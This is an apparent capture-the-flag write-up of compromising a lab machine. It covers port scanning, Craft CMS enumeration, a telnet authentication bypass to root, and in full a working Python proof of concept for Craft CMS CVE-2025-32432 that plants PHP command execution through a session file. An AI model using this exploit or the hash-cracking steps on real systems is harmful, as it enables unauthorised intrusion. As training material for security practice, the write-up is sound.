# Port Scanning
```bash
rustscan -a 10.129.5.32 -- -A

Open 10.129.5.32:22
Open 10.129.5.32:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```
The running website <br/>
<br/>
Using `ffuf` I found /admin page. <br/>
 <br/>
That leaks the Craft CMS version number. <br/>
 <br/>
Googling the version number I found it is vulnerable to unauthenticated RCE. In this [link](https://sensepost.com/blog/2025/investigating-an-in-the-wild-campaign-using-rce-in-craftcms/) I found an automated exploit for this.
```python3
# Author: Nicolas Bourras (Orange Cyberdefense)

# Valid for 3.x, 4.x, 5.x

import sys

import urllib

import urllib3

import requests

url = sys.argv[1]

cmd = sys.argv[2]

asset_id = sys.argv[3] if len(sys.argv) == 4 else ''

php_code = f'<?=exec($_GET["cmd"]);die()?>'

print('[*] CraftCMS CVE-2025-32432 PoC')

def custom_make_request(self, conn, method, url, **httplib_request_kw):

url = urllib.parse.unquote(url)

return self._original_make_request(conn, method, url, **httplib_request_kw)

urllib3.connectionpool.HTTPConnectionPool._original_make_request = urllib3.connectionpool.HTTPConnectionPool._make_request

urllib3.connectionpool.HTTPConnectionPool._make_request = custom_make_request

print('[+] Making initial request to push payload and get a CSRF token..')

print(f'[+] Pushing the following code: {php_code}')

s = requests.Session()

res = s.get(f'{url}/index.php', params=f'p=admin/dashboard&a={php_code}')

print(f'[+] Got response {res.status_code}')

session_id = s.cookies['CraftSessionId']

print(f'[+] PHP code pushed in the session with ID: {session_id}')

line = next(

l for l in res.text.split('\n')

if '<input type="hidden" name="CRAFT_CSRF_TOKEN"' in l

)

token = line.split('value="', 1)[1].split('"', 1)[0]

print(f'[+] Found CSRF TOKEN: {token}')

print('[+] Triggering code via assets/generate-transform')

# trigger it

params = {

'p': 'actions/assets/generate-transform',

'cmd': cmd,

}

res = s.post(f'{url}/index.php', params=params, json={

'assetId': asset_id,

'handle': {

'width': 123,

'height': 123,

'as hack': {

'class': 'craft\\behaviors\\FieldLayoutBehavior',

'__class': 'yii\\rbac\\PhpManager',

'__construct()': [{

'itemFile': f'/var/lib/php/sessions/sess_{session_id}',

}]

}

}

}, headers={

'X-CSRF-Token': token,

})

print(f'[+] Got response {res.status_code}')

if '?p=admin/dashboard&a=' not in res.text:

print('[!] Invalid output detected. If running under a 3.x version, the given asset ID may be invalid.')

print('[!] Try specifying an asset ID, and testing different values (its an incremental integer, starting at 0).')

print('[+] Command output:')

# remove leading text

text = res.text

text = text.split('?p=admin/dashboard&a=', 1)[1]

print(text)
```
Using this exploit I obtained the RCE. <br/>
 <br/>
I tried to get shell using this but failed. After some research I found metasploit has exploit for it. So I fired it and got the meterpreter session. <br/>
 <br/>
After enumeration I have found database credentials. Enumerating the database I found adam's bcrypt hash. <br/>
 <br/>
 <br/>
Using john the ripper i decrypt the password. <br/>
 <br/>
Using the password I logged in as adam via ssh and got user flag. <br/>
 <br/>
# Privilege Escalation
Using linpeas I found tlenet port is open. <br/>
 <br/>
I checked the version of the running telnet. <br/>

Which is vulnerable to CVE-2026-24061. with authentication bypass. After googling I found the following this [reop](https://github.com/sh4den/CVE-2026-24061). From there I used the python script and got the root shell. <br/>
<br/>
